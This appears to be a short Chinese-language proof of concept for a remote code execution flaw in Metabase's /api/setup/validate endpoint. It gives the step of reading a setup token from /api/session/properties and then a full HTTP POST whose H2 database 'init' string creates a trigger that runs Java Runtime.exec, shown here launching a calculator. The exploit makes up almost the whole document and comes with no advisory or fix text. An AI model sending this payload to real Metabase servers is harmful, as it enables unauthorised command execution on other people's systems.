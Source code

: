 # Metabase apisetupvalidate 远程代码执行漏洞

    首先 get 访问/api/session/properties 获取 token，然后运行如下 POC

```
POST /api/setup/validate HTTP/1.1
Host:
Content-Length: 242
Content-Type: application/json 
Accept-Encoding: gzip

{
"token": "e83dbb0a-196e-4a25-977c-8c31b022b4ef", "details":
{
"details": {
"db":"file:./metabase.db", "advanced-options": false, "ssl": true,
"init":
"CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS '//javascript\njava.lang.Runtime.getRuntime().exec(\"open -a calculator\")'"},
"name": "x", "engine": "h2"
} }
```
